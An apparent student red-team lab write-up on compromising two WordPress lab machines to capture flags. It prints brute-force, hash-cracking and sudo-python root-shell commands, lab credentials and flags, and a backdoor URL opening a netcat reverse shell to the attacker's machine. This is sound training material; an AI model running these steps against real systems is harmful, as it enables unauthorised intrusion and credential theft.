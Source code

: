 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV -O 192.168.1.110`

![Initial Nmap Scan](Images/InitialNmapScan.png "Nmap Scan")

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 1
  - Wordpress server is vulnerable to user enumeration
  - Wordpress and ssh server have weak passwords
  - MySQL password is stored in plain text
  - Wordpress hashes are stored unsalted
  - Steven user account has sudo permissions for Python

`$ nmap -sV -O 192.168.1.115`

![Initial Nmap Scan](Images/Target2Nmap.png "Nmap Scan")

  This scan identifies the services below as potential points of entry:
- Target 2
  - Port 22/TCP: OpenSSH 6.7p1
  - Port 80/TCP: Apache web server 2.4.10
  - Port 111/TCP: rpcbind 2-4
  - Port 139/TCP: Samba smbd 3-4
  - Port 445/TCP: Samba smbd 3-4

The following vulnerabilities were identified:
- Target 2
---------------------------------------------COMPLETE

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - Start with a user enumeration of the Wordpress website using Wpscan
        - `wpscan --url http://192.168.1.110/wordpress --enumerate u`
        - ![WPScan](Images/Wpscan.png "WPScan")
      - Using the ssh module in Metasploit we will break into Michael's account
        - `msfconsole`
        - `search ssh`
        - `use auxiliary/scanner/ssh/ssh_login`
        - `show options`
        - `set username michael`
        - `set user_as_pass true`
        - `set pass_file /usr/share/wordlists/rockyou.txt`
        - `set rhosts 192.168.1.110`
        - `set rport 22`
        - `set stop_on_success true`
        - ![Metasploit](Images/Metasploit.png "Metasploit SSH Cracker") 
        - Michael's password is michael
      - Now that we have access to Michael's account we ssh in and search the website filed for the first flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html`
        - `grep -nr 'flag1'`
        - ![flag1](Images/flag1.png "First flag") 
  - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - We have the ssh login for Michael from the first flag so we login with that again and run a find command to locate any files named flag
        - `ssh michael@192.168.1.110`
        - `find / -iname '*flag*' -type f -print 2>/dev/null`
        - ![flag2 location](Images/flag2Location.png "Second flag location") 
        - We now know it is stored in /var/www/flag2.txt
        - `cat /var/www/flag2.txt`
        - ![flag2](Images/flag2.png "Second flag") 
  - `flag3`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - We are going to locate the password to the MySQL server and than search the database for the next flag
        - `ssh michael@192.168.1.110`
        - `cd /var/www/html/wordpress`
        - `cat wp-config.php`
        - ![MySQL Login Info](Images/MySQL_Login.png "MySQL Login Info")
        - We now know that the MySQL username is `root` with `R@v3nSecurity` as the password so now we will login to the database and search it for the flag
        - `mysql -u root -pR@v3nSecurity`
        - `use wordpress;`
        - `show tables;`
        - ![MySQL Tables](Images/MySQL_Tables.png "MySQL Tables")
        - `describe wp_posts;`
        - ![MySQL wp_posts](Images/MySQL_wp_posts.png "MySQL wp_posts")
        - `select post_content from wp_posts where post_content like '%flag%';`
        - ![Flag 3 and 4](Images/flag3and4.png "Flag 3 and 4")
        - This gives us the third and fourth flag but we will continue to escalate privileges to root regardless to demonstrate how to do it

  - `flag4`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - We will be finding the password hash for the steven user account and cracking it than using the steven user permissions to create a root shell and find the last flag
      - `ssh michael@192.168.1.110`
      - `mysql -u root -pR@v3nSecurity`
      - `select * from wp_users;`
      - ![MySQL wp_users](Images/MySQL_wp_users.png "MySQL wp_users")
      - Now we take the hashes that we found in the wp_users table and we put them into a text file to be cracked using John the Ripper
      - `john MySQL_Hashes.txt --wordlist="/usr/share/wordlists/rockyou.txt"`
      - `john --show MySQL_Hashes.txt`
      - ![Steven's Password](Images/StevensPassword.png "Steven's Password")
      - Now we login to the ssh account using Steven's account
      - `ssh steven@192.168.1.110`
      - We have to check the permissions of Steven's account
      - `sudo -l`
      - ![Steven's Permissions](Images/StevensPerms.png "Steven's Permissions")
      - We now know that Steven can use sudo permissions for python so now we can exploit this by spawning a root bash shell
      - `sudo python -c 'import pty; pty.spawn("/bin/bash")'`
      - Now we run another seach for a flag file now that we have root permissions
      - `find / -iname '*flag*' -type f`
      - ![Flag 4 Location](Images/flag4Location.png "Flag 4 Location")
      - `cat /root/flag4.txt`
      - ![Flag 4](Images/flag4.png "Flag 4")

- Target 2
    - `flag1`: flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - **Exploit Used**
      - We will use gobuster to enumerate the website
        - `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://192.168.1.115/`
        - ![Target 2 Gobuster Scan](Images/Target2Gobuster.png "Target 2 Gobuster Scan")
        - After further inspecting the option we choose to check out the /vendor directory
        - ![Target 2 Vendor Directory](Images/Target2Vendor.png "Target 2 Vendor Directory")
        - Visiting the Path file shows the first flag
        - ![Target 2 Flag 1](Images/Target2Flag1.png "Target 2 Flag 1")
    - `flag2`: flag2{6a8ed560f0b5358ecf844108048eb337}
    - **Exploit Used**
      - We will exploit the insecure webserver and upload a backdoor to give us a bash shell on the target machine
        - We take this [exploit.sh](exploit.sh) and run it to place a backdoor onto the target webserver
      - Once the file is run we than start a netcat listener on the kali machine
        - `nc -lnvp 4444`
      - Than we use the backdoor file to connect the target computer to our kali machine by visiting this url
        - `http://192.168.1.115/backdoor.php?cmd=nc%20192.168.1.90%204444%20-e%20/bin/bash`
      - Now that we have a shell spawned on the target machine we will run a find command for the second flag
        - `find / -iname '*flag*' -type -f`
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - This gives us the second flag and the location of the third flag
    - `flag3`: flag3{a0f568aa9de277887f37730d71520d9b}
    - **Exploit Used**
      - From the find command used to locate the second command we know the location of the third flag as well
        - ![Target 2 Flag 2 and 3](Images/Target2Flag2.png "Target 2 Flag 2 and 3")
        - We can now visit http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png to see the third flag
        - ![Target 2 Flag 3](Images/Target2Flag3.png "Target 2 Flag 3")